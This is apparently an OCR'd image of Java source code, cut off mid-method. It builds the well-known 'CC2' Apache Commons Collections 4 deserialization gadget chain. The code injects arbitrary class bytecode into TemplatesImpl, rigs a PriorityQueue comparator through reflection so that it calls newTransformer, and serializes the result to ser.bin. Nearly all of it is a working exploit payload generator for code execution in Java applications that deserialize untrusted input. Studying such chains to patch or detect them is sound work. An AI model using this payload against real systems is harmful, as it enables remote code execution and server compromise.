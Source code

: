 ```plain
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;


import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2并将Temlates传入
        priorityQueue.add(Templates);
        priorityQueue.add(Templates);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```